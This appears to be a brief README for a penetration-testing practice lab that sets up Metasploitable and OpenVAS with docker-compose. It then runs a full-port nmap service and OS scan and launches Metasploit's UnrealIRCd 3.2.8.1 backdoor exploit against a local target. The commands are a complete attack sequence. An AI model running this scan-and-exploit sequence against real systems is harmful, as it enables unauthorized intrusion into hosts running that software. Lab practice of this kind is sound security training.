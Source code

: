 ### metasploitable and open-vas

docker-compose up

### nmap 

nmap -p0-65535 -sV -O 10.0.0.2

### metasploit 

msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf > show options
msf > set RHOST 10.0.0.2
msf > exploit
